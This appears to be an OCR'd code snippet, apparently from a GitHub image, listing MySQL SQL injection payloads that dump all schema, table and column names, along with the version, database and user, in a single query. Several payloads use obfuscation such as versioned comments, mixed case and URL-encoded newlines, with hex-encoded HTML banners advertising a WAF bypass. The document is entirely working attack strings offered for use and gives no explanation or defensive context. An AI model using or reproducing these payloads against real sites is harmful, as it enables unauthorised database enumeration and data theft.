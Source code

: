 	(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

	make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

	(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

	(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

	(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

	+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

	(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

	+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

	+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+
